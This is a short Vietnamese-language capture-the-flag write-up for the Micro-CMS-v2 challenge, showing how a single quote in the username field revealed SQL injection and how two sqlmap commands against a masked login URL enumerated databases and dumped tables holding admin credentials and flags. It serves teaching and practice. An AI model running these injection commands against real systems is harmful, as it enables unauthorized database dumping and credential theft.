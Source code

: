 # SQL Injection

## Phát hiện SQL injection

    Sử dụng ' thây server trả về  hình ảnh dưới

![](../img/f1-0.png)

    Dựa vào đó thấy tham số  ảnh hưởng trực tiếp đến câu lệnh truy vấn là username.

## Sử dụng SQLMAP

```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs
```
![](../img/fulldb.png)

    Đã hiển thị hết database trong mysql. Và đây là Micro-CMS-v2 nên mình tập chung để dump data trong database level2

    Sử dụng tiếp sqlmap để dump data trong database
```
python sqlmap.py -u http://xxx.xxx.xxx.xxx/XXXXXXX/login --method POST --data "username=ABC&password=" -p username --dbs -D level2 --dump
```

![](../img/admin.png)

![](../img/page.png)

    Dữ liêu của 2 table dump ra đầy đủ. admin thì có tài khoản
    Còn pages thì có flag 0

    Sử dụng tài khoản trong table admin login vào trong sẽ lấy được flag cuối cùng